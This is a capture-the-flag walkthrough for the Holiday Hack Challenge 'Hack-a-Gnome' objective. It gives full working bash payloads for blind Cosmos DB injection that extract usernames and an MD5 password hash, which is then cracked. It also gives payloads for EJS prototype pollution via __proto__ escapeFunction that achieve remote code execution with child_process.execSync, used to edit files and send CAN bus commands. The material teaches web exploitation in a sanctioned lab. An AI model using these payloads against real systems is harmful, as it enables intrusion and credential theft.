






## Overview


**Davis** in the **Data Center** is fighting a gnome army—join the hack-a-gnome fun. Make your way to the first down elevator!


!!! quote "Davis"
	Hi, my name is Chris.

	I like miniature war gaming and painting minis.

	I enjoy open source projects and amateur robotics.

	Hiking and kayaking are my favorite IRL activies.

	I love single player video games with great stoylines.
<div style="clear: both;"></div>

!!! quote "Davis"
	Hey, I could really use another set of eyes on this gnome takeover situation.

	Their systems have multiple layers of protection now - database authentication, web application vulnerabilities, and more!

	But every system has weaknesses if you know where to look.

	Ready to help me turn one of these rebellious bots against its own kind?
## Hints
??? example "Hack-a-Gnome (1)"
	Sometimes, client-side code can interfere with what you submit. Try proxying your requests through a tool like [Burp Suite](https://portswigger.net/burp) or [OWASP ZAP](https://www.zaproxy.org/). You might be able to trigger a revealing error message.

??? example "Hack-a-Gnome (2)"
	Oh no, it sounds like the CAN bus controls are not sending the correct signals! If only there was a way to hack into your gnome's control stats/signal container to get command-line access to the smart-gnome. This would allow you to fix the signals and control the bot to shut down the factory. During my development of the robotic **prototype**, we found the factory's **pollution** to be undesirable, which is why we shut it down. If not updated since then, the gnome might be running on old and outdated packages.
	
??? example "Hack-a-Gnome (3)"
	I actually helped design the software that controls the factory back when we used it to make toys. It's quite complex. After logging in, there is a front-end that proxies requests to two main components: a backend **Statistics** page, which uses a per-gnome container to render a template with your gnome's stats, and the UI, which connects to the camera feed and sends control signals to the factory, relaying them to your gnome (assuming the CAN bus controls are hooked up correctly). Be careful, the gnomes shutdown if you logout and also shutdown if they run out of their 2-hour battery life (which means you'd have to start all over again).

??? example "Hack-a-Gnome (4)"
	There might be a way to check if an attribute IS_DEFINED on a given entry. This could allow you to brute-force possible attribute names for the target user's entry, which stores their password hash. Depending on the hash type, it might already be cracked and available online where you could find an online **crack**ing **station** to break it.

??? example "Hack-a-Gnome (5)"
	Once you determine the type of database the gnome control factory's login is using, look up its documentation on default document types and properties. This information could help you generate a list of common English first names to try in your attack.

??? example "Hack-a-Gnome (6)"
	Nice! Once you have command-line access to the gnome, you'll need to fix the signals in the `canbus_client.py` file so they match up correctly. After that, the signals you send through the web UI to the factory should properly control the smart-gnome. You could try sniffing CAN bus traffic, enumerating signals based on any documentation you find, or brute-forcing combinations until you discover the right signals to control the gnome from the web UI.
	
## Solution

I'm not going to lie. This one was definitely a 5-snowflake challenge for me, and I may or may not have needed help even with decipering the *hints*...

### Triggering the Database Tell

Let's start by registering a new gnome account. The registration form assigns us a unique gnome ID, which we'll need for subsequent requests.


The username availability check endpoint caught our attention. What happens if we send it something unexpected?

```bash
id="cc659669-f0bd-4cb7-9d6a-f4cacfb873aa"

curl -s -i "https://hhc25-smartgnomehack-prod.holidayhackchallenge.com/userAvailable?username=%7B%22%24ne%22:%22%22%7D&id=$id"
```

The application throws a very helpful error! Sometimes applications are too *chatty* for their own good.



The error message gives away the whole backend stack!

The sort-of-obvious signs:

- **Microsoft.Azure.Documents.Common/2.14.0:** Azure Cosmos DB SDK
- **ActivityId:** Cosmos DB request tracking identifier
- **Error code SC1010:** Cosmos DB SQL syntax error

Cosmos DB uses a SQL-like query language but with NoSQL injection opportunities. Time to exploit this chatty database!

??? tip "Cosmos DB SQL Injection Resources"
	For all things Cosmos DB SQL injection vulnerabilities:
	
	- [Microsoft Learn: Parameterized Queries](https://learn.microsoft.com/en-us/azure/cosmos-db/nosql/query/parameterized-queries) - Official documentation on preventing SQL injection
	- [CosmosDB and SQL Injection](https://michaelhowardsecure.blog/2019/03/05/cosmosdb-and-sql-injection/) - Detailed blog post by Michael Howard explaining the vulnerability
	- [Azure Cosmos DB SQL Injection Attack and Defense](https://medium.com/swlh/azure-cosmos-db-sql-injection-attack-and-defense-17b32ef95b9) - Practical exploitation examples

---

### Brute Forcing the Usernames

With knowledge of the backend database type, we can craft injection payloads! Cosmos DB SQL supports subqueries and boolean logic, which gives us blind injection capabilities.

We don't know any usernames yet, so we start by testing the first character (position 0) to see what usernames might exist:

```bash
id=cc659669-f0bd-4cb7-9d6a-f4cacfb873aa

for ch in {A..Z} {a..z} {0..9}; do
  url="https://hhc25-smartgnomehack-prod.holidayhackchallenge.com/userAvailable?username=%22%20OR%20(SELECT%20VALUE%20COUNT(1)%20FROM%20c%20WHERE%20SUBSTRING(c.username,0,1)%3D%27${ch}%27)%3E0%20--&id=${id}"
  res=$(curl -s "$url")
  if echo "$res" | grep -q '"available":false'; then
    echo "FOUND: $ch"
  fi
done
```


Interesting! There are usernames starting with B/b and H/h. Before extracting all characters, we discover the username lengths:

```bash
id=cc659669-f0bd-4cb7-9d6a-f4cacfb873aa

for n in $(seq 1 30); do
  url="https://hhc25-smartgnomehack-prod.holidayhackchallenge.com/userAvailable?username=%22%20OR%20(SELECT%20VALUE%20COUNT(1)%20FROM%20c%20WHERE%20LENGTH(c.username)%3D${n})%3E0%20--&id=${id}"
  res=$(curl -s "$url")
  if echo "$res" | grep -q '"available":false'; then
    echo "FOUND_LENGTH: $n"
  fi
done
```

Output:

- FOUND_LENGTH: 5
- FOUND_LENGTH: 6

Perfect! We have usernames of length 5 and 6. Now we extract each character position for both lengths:

!!! info "Username Character Enumeration"
	```bash    
		id=cc659669-f0bd-4cb7-9d6a-f4cacfb873aa
		chars="$(printf '%s\n' {A..Z} {a..z} {0..9} _ . - | tr '\n' ' ')"
		
		for L in 5 6; do
		  echo "Trying length $L"
		  for pos in $(seq 0 $((L-1))); do
			for ch in $chars; do
			  payload="\" OR (SELECT VALUE COUNT(1) FROM c WHERE SUBSTRING(c.username,${pos},1)='${ch}')>0 --"
			  res=$(curl -s --get --data-urlencode "username=${payload}" "https://hhc25-smartgnomehack-prod.holidayhackchallenge.com/userAvailable" --data-urlencode "id=${id}")
			  if echo "$res" | grep -q '"available":false'; then
				echo "L${L} pos${pos}: $ch"
			  fi
			done
		  done
		done
	```
	
??? note "Full Character Enumeration Output (click to expand)"
    { style="max-width: 300px; height: auto;" }

The output reveals character patterns at each position. For length 5, we see characters that spell "Bruce" and "bruce", and for length 6 we get "Harold" and "harold":

We verify Harold exists (Cosmos DB is case insensitive for username comparisons, because why make security harder?):

```bash
id=cc659669-f0bd-4cb7-9d6a-f4cacfb873aa
for u in Harold harold HAROLD; do
  curl -s "https://hhc25-smartgnomehack-prod.holidayhackchallenge.com/userAvailable?username=${u}&id=${id}" && echo " -> $u"
done
```

All three return `{"available":false}` confirming Harold exists! The hints mention Harold developed the system. *Classic* developer mistake: leaving your own account in production with a weak password, and an even weaker password hash!

---

### Finding the Hash Field

Cosmos DB documents can have various field names for password hashes. We enumerate common possibilities using `IS_DEFINED`. It's blind SQL injection bingo!

!!! info "Hash Field Enumeration"
```bash    
	id=cc659669-f0bd-4cb7-9d6a-f4cacfb873aa
    user=Harold
    
    for a in password hash passwordHash password_hash pass pwd secret digest md5 sha1 sha256 sha512 bcrypt scrypt argon2 phc salt; do
      payload="\" OR (SELECT VALUE COUNT(1) FROM c WHERE c.username='${user}' AND IS_DEFINED(c.${a}))>0 --"
      res=$(curl -s --get --data-urlencode "username=${payload}" --data-urlencode "id=${id}" \
            "https://hhc25-smartgnomehack-prod.holidayhackchallenge.com/userAvailable")
      if echo "$res" | grep -q '"available":false'; then
        echo "FIELD_PRESENT: $a"
      fi
    done
```
	
Result: `FIELD_PRESENT: digest`

Found it on our first try of the common field names! We discover the length of the digest field:

```bash
id=cc659669-f0bd-4cb7-9d6a-f4cacfb873aa
user=Harold

for n in $(seq 1 200); do
  payload="\" OR (SELECT VALUE COUNT(1) FROM c WHERE c.username='${user}' AND LENGTH(c.digest)=${n})>0 --"
  res=$(curl -s --get --data-urlencode "username=${payload}" --data-urlencode "id=${id}" "https://hhc25-smartgnomehack-prod.holidayhackchallenge.com/userAvailable")
  if echo "$res" | grep -q '"available":false'; then
    echo "DIGEST_LENGTH:$n"
    break
  fi
done
```

Output: `DIGEST_LENGTH:32` → This is an MD5 hash!

---

### Extracting Harold's Password Hash

Time to extract the 32 character digest character by character. Since it's MD5, we only need to test hexadecimal characters (0-9, a-f). This is tedious but effective, and our bash script doesn't complain about working overtime (but I will complain about how long this actually takes):

!!! info "Hash Extraction Script"
	```bash    
		id=cc659669-f0bd-4cb7-9d6a-f4cacfb873aa
		user=Harold
		chars="0123456789abcdef"
		digest=""
		
		for pos in $(seq 0 31); do
		  for ch in $(echo $chars | sed 's/./& /g'); do
			payload="\" OR (SELECT VALUE COUNT(1) FROM c WHERE c.username='${user}' AND SUBSTRING(c.digest,${pos},1)='${ch}')>0 --"
			res=$(curl -s --get --data-urlencode "username=${payload}" --data-urlencode "id=${id}" "https://hhc25-smartgnomehack-prod.holidayhackchallenge.com/userAvailable")
			if echo "$res" | grep -q '"available":false'; then
			  digest="${digest}${ch}"
			  printf "%s" "$ch"
			  break
			fi
		  done
		done
		
		echo
		echo "DIGEST:$digest"
	```
	


Result: `DIGEST:07f456ae6a94cb68d740df548847f459`

We check [CrackStation](https://crackstation.net) for this MD5 hash:



Harold's password is `oatmeal!!` 🥣

We originally found two usernames: Harold and Bruce. If you would like to use Bruce, repeat the same steps above using Bruce's name! 

Spoiler alert: Bruce's password is `oatmeal12`.

---

### Harold's Oatmeal Secret Recipe

We login through the browser interface:

- Username: `Harold`
- Password: `oatmeal!!`

After logging in, we open browser `DevTools (F12)` and navigate to `Application` - `Cookies` to extract our session cookie.

The cookie format is `connect.sid=s%3A...` and super important, these gnomes shut down after 2 hours OR if you logout. Session cookies are our golden tickets here! Treat them carefully, they're more fragile than a gingerbread house in a rainstorm.

---

### Polluting the Prototype

Davis's second hint mentions prototype and pollution being "undesirable." That's a neon sign pointing to prototype pollution! The `/ctrlsignals` endpoint handles control messages and might be vulnerable.

In JavaScript, modifying `__proto__` can pollute the prototype chain. If the application uses an unsafe merge operation, we can inject properties into `Object.prototype` that affect all subsequent objects.

Looking at the `/stats` page, it renders gnome statistics using a template. If we pollute the prototype with a malicious `escapeFunction` property, we might achieve remote code execution when the template engine (likely EJS) calls it.

??? tip "Prototype Pollution & EJS RCE Resources"
	For all things prototype pollution leading to RCE:
	
	**General Prototype Pollution:**

	- [PortSwigger: Server-Side Prototype Pollution](https://portswigger.net/web-security/prototype-pollution/server-side) - Comprehensive guide to detection and exploitation
	- [Imperva: What is Prototype Pollution?](https://www.imperva.com/learn/application-security/prototype-pollution/) - Overview of the vulnerability and mitigation
	- [KTH-LangSec: Server-Side Prototype Pollution Gadgets](https://github.com/KTH-LangSec/server-side-prototype-pollution) - Collection of exploitation gadgets

	**EJS Template Engine Exploitation:**

	- [EJS Server-Side Prototype Pollution Gadgets to RCE](https://mizu.re/post/ejs-server-side-prototype-pollution-gadgets-to-rce) - Detailed walkthrough of escapeFunction exploitation
	- [CVE-2022-29078: Remote Code Execution in EJS](https://security.snyk.io/vuln/SNYK-JS-EJS-2803307) - Official vulnerability details
	- [EJS GitHub Issue #730](https://github.com/mde/ejs/issues/730) - Multiple RCE gadgets in EJS including escapeFunction
	- [Prototype Pollution in EJS v3.1.10](https://medium.com/@albertoc_91016/prototype-pollution-in-open-source-libraries-exploiting-rce-in-ejs-ae93016630a3) - Recent exploitation techniques

We establish RCE by setting two properties via prototype pollution. First, we need to set client to `true`, which tells EJS to include the `escapeFunction` in the compiled template. Then we set `escapeFunction` to execute our commands:

!!! info "Prototype Pollution Payload"
	```bash    
		cookie="YOUR_COOKIE_HERE"
		
		payload='{"action":"update","key":"__proto__","subkey":"client","value":true}'
		curl -s -b "connect.sid=$cookie" "https://hhc25-smartgnomehack-prod.holidayhackchallenge.com/ctrlsignals?message=$(echo $payload | jq -sRr @uri)"
		
		VAL='1;return global.process.mainModule.require("child_process").execSync("pwd")'
		payload=$(jq -cn --arg v "$VAL" '{"action":"update","key":"__proto__","subkey":"escapeFunction","value":$v}')
		curl -s -b "connect.sid=$cookie" "https://hhc25-smartgnomehack-prod.holidayhackchallenge.com/ctrlsignals?message=$(echo $payload | jq -sRr @uri)"
	```

We verify RCE works by visiting `/stats`:

```bash
curl -s -b "connect.sid=$cookie" "https://hhc25-smartgnomehack-prod.holidayhackchallenge.com/stats"
```

Output shows `/app` from the `pwd` command!

!!! warning "Resetting Prototype Pollution"
	If you break the pollution and get `TypeError: esc is not a function`, reset it and then go back to the first command to reestablish the session:

	```bash    
		payload='{"action":"update","key":"__proto__","subkey":"escapeFunction","value":null}'
		curl -s -b "connect.sid=$cookie" "https://hhc25-smartgnomehack-prod.holidayhackchallenge.com/ctrlsignals?message=$(echo $payload | jq -sRr @uri)"
	```

---

### Finding the Factory Floor

With command execution established, we explore the application directory (we've already done this but now with actual enumeration purposes!):

!!! info "Directory Discovery"
```bash    
	VAL='1;return global.process.mainModule.require("child_process").execSync("pwd")'
    payload=$(jq -cn --arg v "$VAL" '{"action":"update","key":"__proto__","subkey":"escapeFunction","value":$v}')
    curl -s -b "connect.sid=$cookie" "https://hhc25-smartgnomehack-prod.holidayhackchallenge.com/ctrlsignals?message=$(echo $payload | jq -sRr @uri)"
    curl -s -b "connect.sid=$cookie" "https://hhc25-smartgnomehack-prod.holidayhackchallenge.com/stats"
```

Output: `/app`

Now we list the files:

!!! info "File Listing"
	```bash    
		VAL='1;return global.process.mainModule.require("child_process").execSync("ls -la /app")'
		payload=$(jq -cn --arg v "$VAL" '{"action":"update","key":"__proto__","subkey":"escapeFunction","value":$v}')
		curl -s -b "connect.sid=$cookie" "https://hhc25-smartgnomehack-prod.holidayhackchallenge.com/ctrlsignals?message=$(echo $payload | jq -sRr @uri)"
		curl -s -b "connect.sid=$cookie" "https://hhc25-smartgnomehack-prod.holidayhackchallenge.com/stats"
	```



There it is! `/app/canbus_client.py` is the target file for CAN bus control. Time to fix those wonky signals.

---

### CAN You Fix the Signals?

We read the Python script to see the current configuration:

!!! info "Reading canbus_client.py"
	```bash    
		VAL='1;return global.process.mainModule.require("child_process").execSync("cat /app/canbus_client.py")'
		payload=$(jq -cn --arg v "$VAL" '{"action":"update","key":"__proto__","subkey":"escapeFunction","value":$v}')
		curl -s -b "connect.sid=$cookie" "https://hhc25-smartgnomehack-prod.holidayhackchallenge.com/ctrlsignals?message=$(echo $payload | jq -sRr @uri)"
		curl -s -b "connect.sid=$cookie" "https://hhc25-smartgnomehack-prod.holidayhackchallenge.com/stats"
	```

??? info "canbus_client.py (click to expand)"
	```python
		#!/usr/bin/python3
		import can
		import time
		import argparse
		import sys
		import datetime # To show timestamps for received messages

		# Define CAN IDs (I think these are wrong with newest update, we need to check the actual device documentation)
		COMMAND_MAP = {
			"up": 0x656,
			"down": 0x657,
			"left": 0x658,
			"right": 0x659,
			# Add other command IDs if needed
		}
		# Add 'listen' as a special command option
		COMMAND_CHOICES = list(COMMAND_MAP.keys()) + ["listen"]

		IFACE_NAME = "gcan0"

		def send_command(bus, command_id):
			"""Sends a CAN message with the given command ID."""
			message = can.Message(
				arbitration_id=command_id,
				data=[], # No specific data needed for these simple commands
				is_extended_id=False
			)
			try:
				bus.send(message)
				print(f"Sent command: ID=0x{command_id:X}")
			except can.CanError as e:
				print(f"Error sending message: {e}")

		def listen_for_messages(bus):
			"""Listens for CAN messages and prints them."""
			print(f"Listening for messages on {bus.channel_info}. Press Ctrl+C to stop.")
			try:
				# Iterate indefinitely over messages received on the bus
				for msg in bus:
					# Get current time for the timestamp
					timestamp = datetime.datetime.now().strftime('%Y-%m-%d %H:%M:%S.%f')[:-3] # Milliseconds precision
					print(f"{timestamp} | Received: {msg}")
					# You could add logic here to filter or react to specific messages
					# if msg.arbitration_id == 0x100:
					#    print("  (Noise message)")

			except KeyboardInterrupt:
				print("\nStopping listener...")
			except Exception as e:
				print(f"\nAn error occurred during listening: {e}")

		def main():
			parser = argparse.ArgumentParser(description="Send CAN bus commands or listen for messages.")
			parser.add_argument(
				"command",
				choices=COMMAND_CHOICES,
				help=f"The command to send ({', '.join(COMMAND_MAP.keys())}) or 'listen' to monitor the bus."
			)
			args = parser.parse_args()

			try:
				# Initialize the CAN bus interface
				bus = can.interface.Bus(channel=IFACE_NAME, interface='socketcan', receive_own_messages=False) # Set receive_own_messages if needed
				print(f"Successfully connected to {IFACE_NAME}.")
			except OSError as e:
				print(f"Error connecting to CAN interface {IFACE_NAME}: {e}")
				print(f"Make sure the {IFACE_NAME} interface is up ('sudo ip link set up {IFACE_NAME}')")
				print("And that you have the necessary permissions.")
				sys.exit(1)
			except Exception as e:
				print(f"An unexpected error occurred during bus initialization: {e}")
				sys.exit(1)

			if args.command == "listen":
				listen_for_messages(bus)
			else:
				command_id = COMMAND_MAP.get(args.command)
				if command_id is None: # Should not happen due to choices constraint
					print(f"Invalid command for sending: {args.command}")
					bus.shutdown()
					sys.exit(1)
				send_command(bus, command_id)
				# Give a moment for the message to be potentially processed if listening elsewhere
				time.sleep(0.1)

			# Shutdown the bus connection cleanly
			bus.shutdown()
			print("CAN bus connection closed.")

		if __name__ == "__main__":
			main()
	```

The current (incorrect) mapping:

```python
	COMMAND_MAP = {
    "up": 0x656,
    "down": 0x657,
    "left": 0x658,
    "right": 0x659,
	}
```

The arrow keys in the browser don't work! Either the gnomes changed the wiring after their rebellion, or Harold's documentation is as outdated as his password. We need to find the correct CAN IDs. CAN IDs below `0x100` are typically system reserved, so we test the `0x200` range systematically:

!!! info "CAN ID Enumeration Script"
	```bash    
		VAL='1;return global.process.mainModule.require("child_process").execSync("echo import can,time > /tmp/t.py && echo bus=can.interface.Bus\\(channel=\\047gcan0\\047,interface=\\047socketcan\\047\\) >> /tmp/t.py && echo for mid in range\\(0x200,0x210\\):bus.send\\(can.Message\\(arbitration_id=mid,data=[1],is_extended_id=False\\)\\)\\;time.sleep\\(0.3\\) >> /tmp/t.py && echo bus.shutdown\\(\\) >> /tmp/t.py && python3 /tmp/t.py")'
		payload=$(jq -cn --arg v "$VAL" '{"action":"update","key":"__proto__","subkey":"escapeFunction","value":$v}')
		curl -s -b "connect.sid=$cookie" "https://hhc25-smartgnomehack-prod.holidayhackchallenge.com/ctrlsignals?message=$(echo $payload | jq -sRr @uri)"
		curl -s -b "connect.sid=$cookie" "https://hhc25-smartgnomehack-prod.holidayhackchallenge.com/stats"
	```


We watch the robot camera feed as each CAN ID is sent. The robot twitches and moves when we hit IDs `0x201`, `0x202`, `0x203`, and `0x204`! Like finding the right combination to a lock, except the lock is a rebellious robot and the combination makes it dance.

Through observation and testing, the correct mapping is:

- 0x201 = UP
- 0x202 = DOWN
- 0x203 = LEFT
- 0x204 = RIGHT

---

### Fixing the CAN Map

We update the Python file with the correct mappings:

!!! info "Updating canbus_client.py"
	```bash    
		VAL='1;return global.process.mainModule.require("child_process").execSync("sed -i '"'"'s/0x656/0x201/g; s/0x657/0x202/g; s/0x658/0x203/g; s/0x659/0x204/g'"'"' /app/canbus_client.py && grep '"'"'0x20'"'"' /app/canbus_client.py")'
		payload=$(jq -cn --arg v "$VAL" '{"action":"update","key":"__proto__","subkey":"escapeFunction","value":$v}')
		curl -s -b "connect.sid=$cookie" "https://hhc25-smartgnomehack-prod.holidayhackchallenge.com/ctrlsignals?message=$(echo $payload | jq -sRr @uri)"
		curl -s -b "connect.sid=$cookie" "https://hhc25-smartgnomehack-prod.holidayhackchallenge.com/stats"
	```

The output confirms our changes:

```python    
	"up": 0x201,
    "down": 0x202,
    "left": 0x203,
    "right": 0x204,
```

The arrow keys in the browser now work perfectly! Our rebellious gnome is now our *obedient* gnome.

---

### Robot Rebellion Route

With control restored, we need to navigate the robot through a Sokoban-style puzzle to reach the fusebox. The warehouse layout shows boxes blocking our path. *Classic* puzzle game mechanics meet industrial sabotage!


*I totally didn't get nervous and have to re-do this screen recording 9 times...*

We can solve this manually using the arrow keys in the browser (fun but tedious), or automate it by sending the complete move sequence via CAN bus (efficient and satisfying).

The solution path: `DOWN×4, LEFT, DOWN, LEFT×3, UP, LEFT, UP×2, LEFT, UP×2, LEFT` (17 moves total)

!!! info "Automated Solution"
	```bash    
		VAL='1;return global.process.mainModule.require("child_process").execSync("echo import can,time > /tmp/s.py && echo bus=can.interface.Bus\\(channel=\\047gcan0\\047,interface=\\047socketcan\\047\\) >> /tmp/s.py && echo seq=[0x202]*4+[0x203,0x202,0x203,0x203,0x203,0x201,0x203,0x201,0x201,0x203,0x201,0x201,0x203] >> /tmp/s.py && echo for cid in seq:bus.send\\(can.Message\\(arbitration_id=cid,data=[1],is_extended_id=False\\)\\)\\;time.sleep\\(0.4\\) >> /tmp/s.py && echo bus.shutdown\\(\\) >> /tmp/s.py && python3 /tmp/s.py")'
		payload=$(jq -cn --arg v "$VAL" '{"action":"update","key":"__proto__","subkey":"escapeFunction","value":$v}')
		curl -s -b "connect.sid=$cookie" "https://hhc25-smartgnomehack-prod.holidayhackchallenge.com/ctrlsignals?message=$(echo $payload | jq -sRr @uri)"
		curl -s -b "connect.sid=$cookie" "https://hhc25-smartgnomehack-prod.holidayhackchallenge.com/stats"
	```	
	
The robot smoothly navigates through the warehouse, pushing boxes out of the way and reaching the fusebox!



Glooooory!! The smart gnome has been turned against its own kind and shut down the factory. Harold's prototype pollution vulnerability, weak oatmeal password, and misconfigured CAN bus settings made this robotic rebellion reversal possible! Sometimes the best way to fight a smart gnome uprising is to hijack one and turn it into a double agent. 🤖


<div class="nav-buttons">
  <a href="/objectives/o19" class="nav-button nav-left">← Gnome Tea</a>
  <a href="/objectives/o21" class="nav-button nav-right">Next: Snowcat RCE & Priv Esc →</a>
</div>
